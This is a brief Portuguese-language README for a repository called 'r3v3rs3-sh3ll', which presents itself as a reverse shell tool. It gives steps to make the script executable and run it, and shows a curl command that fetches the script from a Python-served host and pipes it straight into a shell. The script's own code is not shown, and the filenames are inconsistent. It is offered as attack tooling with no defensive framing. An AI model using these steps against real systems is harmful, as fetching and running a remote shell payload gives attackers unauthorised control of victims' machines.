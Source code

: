 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r33rs3-sh3ll.sh.sh
./r3v3rs3-sh3ll.sh

pode ser utilizo levantando um servidor python e chamando com curl

- curl -k http://servidorpythom:porta/r33rs3-sh3ll.sh.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
